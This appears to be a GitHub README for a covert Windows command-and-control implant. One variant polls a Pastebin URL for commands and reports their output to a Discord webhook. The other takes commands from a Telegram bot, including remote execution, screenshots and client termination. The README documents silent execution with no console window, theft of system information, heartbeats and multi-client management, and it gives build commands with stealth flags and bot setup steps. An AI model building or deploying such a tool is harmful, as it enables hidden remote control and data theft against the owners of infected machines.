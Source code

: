 # Command and Control Implementation

This program provides two different implementations for command and control:

1. **Discord Webhook Version**: Periodically fetches commands from a specified Pastebin URL, executes them silently on the host machine, and sends the command and its output to a specified Discord webhook.

2. **Telegram Bot Version**: Connects to a Telegram bot, listens for commands from an authorized chat, executes them silently on the host machine, and sends the output back to the Telegram chat.

## Features

### Discord Webhook Version

*   Fetches command from `https://pastebin.com/raw/KGNHeZd8` every 10 seconds.
*   Executes the fetched command using `cmd.exe` via CreateProcess.
*   Sends the executed command and its output (max ~1800 chars) to the Discord webhook.
*   Sends a notification to the webhook when the program starts.
*   Runs silently with no visible console window.

### Telegram Bot Version

*   Connects to the Telegram Bot API using a bot token.
*   Listens for messages from an authorized chat ID.
*   Executes commands received from Telegram using `cmd.exe` via CreateProcess.
*   Sends command output back to the Telegram chat.
*   Sends system information on startup.
*   Runs silently with no visible console window.
*   Provides command-based management for multiple connected clients.
*   Sends periodic heartbeats to maintain presence information.

#### Telegram Bot Commands

The Telegram bot implementation supports the following commands:

* `/help` - Display a list of available commands
* `/list` - List all connected clients
* `/info [client_id]` - Get system information for a specific client or the current client
* `/execute [client_id] <command>` - Execute a command on a specific client or the current client
* `/screenshot [client_id]` - Take a screenshot on a specific client or the current client
* `/kill [client_id]` - Terminate a specific client or the current client
* `/status` - Show current status and uptime information

Examples:

```
/list
/info
/info PC123_Admin_20230515123045
/execute ipconfig /all
/execute PC123_Admin_20230515123045 systeminfo
/screenshot
/kill PC123_Admin_20230515123045
```

## Configuration

### Discord Webhook Version

Edit the following constants in `re_webhook.cpp`:
```cpp
const std::string WEBHOOK_URL = "YOUR_DISCORD_WEBHOOK_URL";
const std::string COMMAND_URL = "YOUR_PASTEBIN_RAW_URL";
```

### Telegram Bot Version

Edit the following constants in `re_webhook.cpp`:
```cpp
const std::string TELEGRAM_BOT_TOKEN = "YOUR_TELEGRAM_BOT_TOKEN";
const std::string TELEGRAM_CHAT_ID = "YOUR_TELEGRAM_CHAT_ID";
```

To create a Telegram bot and get a token:
1. Talk to [@BotFather](https://t.me/botfather) on Telegram
2. Use the `/newbot` command and follow the instructions
3. Copy the API token that BotFather gives you

To get your chat ID:
1. Start a conversation with your bot
2. Visit `https://api.telegram.org/bot<YOUR_BOT_TOKEN>/getUpdates`
3. Look for the `"chat":{"id":XXXXXXXXX}` value in the response

## Compilation

Requires MinGW (specifically `i686-w64-mingw32-g++` or similar).

Use the provided Makefile:

For Discord Webhook version:
```bash
make webhook
```

For Telegram Bot version:
```bash
make telegram
```

Or compile directly:

Discord Webhook version:
```bash
i686-w64-mingw32-g++ re_webhook.cpp -o WebhookCommandExecutor.exe -lwininet -s -O2 -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -std=c++11 -static -lpthread -mwindows
```

Telegram Bot version:
```bash
i686-w64-mingw32-g++ re_webhook.cpp -o TelegramBotC2.exe -lwininet -s -O2 -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -std=c++11 -static -lpthread -mwindows
```

The `-mwindows` flag prevents the console window from appearing.

## Client Features

Each connected client reports the following information:

1. **Unique Client ID**: Generated from hostname, username, and timestamp
2. **System Information**: OS details, CPU, RAM, IP addresses
3. **Heartbeats**: Regular check-ins every 5 minutes
4. **Command Execution**: Remote command execution with output capture
5. **Process Control**: Ability to terminate the client remotely

## Security Warning

This program executes arbitrary commands received from either Discord webhook or Telegram. Use responsibly and ensure proper authorization mechanisms are in place.

